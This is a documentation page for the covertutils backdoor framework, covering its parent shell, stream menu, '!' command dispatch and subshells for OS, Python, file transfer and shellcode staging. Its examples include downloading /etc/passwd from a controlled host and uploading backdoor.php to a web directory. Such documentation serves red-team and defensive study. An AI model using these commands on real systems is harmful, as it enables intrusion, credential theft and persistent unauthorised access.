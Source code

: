 

Shells & SubShells
==================

When a class from the :mod:`covertutils.shells` family is used to hook and interact with the :class:`Handler` object, several built-in features can be used.


The shells provided by the package are `(thank god)` **<Ctrl-C> resistant**, and modular, in a sense that no single shell interface accepts `every command`.

As the architecture of a `covertutils` backdoor implies, all data flows through a virtual `stream` that is identified by an OTP mechanism (see :ref:`streamidentifier_component`). The other side `(Agent)` can handle data from **different streams in different ways**.



The shell that spawns when the :meth:`covertutils.shell.BaseShell.start` method is used is almost a dummy. It runs no commands from itself. It is there to provide the `stream menu` and handle `exit commands`.
This design makes easier the creation of custom command suites, `without expanding` the parent classes (but `inheriting` from them).

Enough subshells have been created for an everyday backdoor (`shell`, `file transfer`, even `shellcode execution` see :ref:`stages_page`), but the ability to create and integrate new ones along with the existing is given through the use of a parent shell approach.


The Parent Shell
****************

Stream Menu
+++++++++++


The parent shell spawns the `stream menu` with a `<Ctrl-C>` - ``KeyboardInterrupt``. From there, the user can jump to SubShells to access real commands (either `OS` or `Python` or whatever is loaded at the given time).

.. code:: bash

	(127.0.0.1:58504)>
	Available Streams:
		[ 0] - control
		[ 1] - python
		[ 2] - os-shell
		[ 3] - file
		[ 4] - stage
		[99] - Back
	Select stream:


Dispatching commands with ``"!"`` `(exclamation mark)`
++++++++++++++++++++++++++++++++++++++++++++++++++++++

From the `Parent Shell` it is possible to issue commands to any SubShell just by prepending the ``"!"`` and the `stream name` before the actual command.

.. code:: bash

	(127.0.0.1:58504)> !python print "Dispatching to Python Stream"
	Dispatching to Python Stream


Typing only the ``"!"`` and the `stream name` will jump to the `stream's` SubShell.

.. code:: bash

	(127.0.0.1:58504)> !python
	[python] >>>

This way SubShells with only one or two commands can be used without directly accessed.

.. code:: bash

	(127.0.0.1:58504)> !file download /etc/passwd

.. code:: bash

	(127.0.0.1:58504)> !stage fload my_custom_module.py

.. code:: bash

	(127.0.0.1:58504)> !control reset


*The ``"!"`` can be used from SubShells too, making file transfers handy.

.. code:: bash

	[os-shell]> ls
	index.html

	[os-shell]> !file upload backdoor.php
	File uploaded succesfully!

	[os-shell]> ls
	index.html
	backdoor.php


Exiting
+++++++

Exiting the `Parent Shell` with ``exit`` or ``q`` or ``quit`` will make the :meth:`covertutils.shell.BaseShell.start` method to return. This design is preferred from the ``sys.exit(0)`` approach, as it leaves open the possibility of a `multi-shell`, used for session management purposes, providing features like the ``session -i`` of `meterpreter`.

Also the :class:`covertutils.shell.impl.StandardShell` class and derivatives contain a ``sysinfo`` class variable, populated when the ``!control sysinfo`` command is first run. This variable is accessible from outside the class, providing information of the controlled system. This can be used to create a brief line similar to `meterpreter`'s ``session -l`` command.
